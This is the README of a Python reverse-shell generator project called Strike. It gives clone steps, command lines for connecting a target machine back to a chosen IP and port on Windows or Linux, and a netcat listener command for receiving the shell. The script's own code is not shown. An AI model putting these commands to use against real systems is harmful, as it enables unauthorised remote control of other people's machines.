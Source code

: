 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on


### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike

## Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip RECEIVER_IP -port PORT_NUMBER

# How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace RECEIVER_IP with the IP address of the machine you want to receive shell.
- Replace PORT_NUMBER with the port number to connect to on the machine you wan to receive shell.
- The script will create a reverse shell connection to the specified IP and port.

## IMPORTANT

You want to start listening to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp PORT_NUMBER
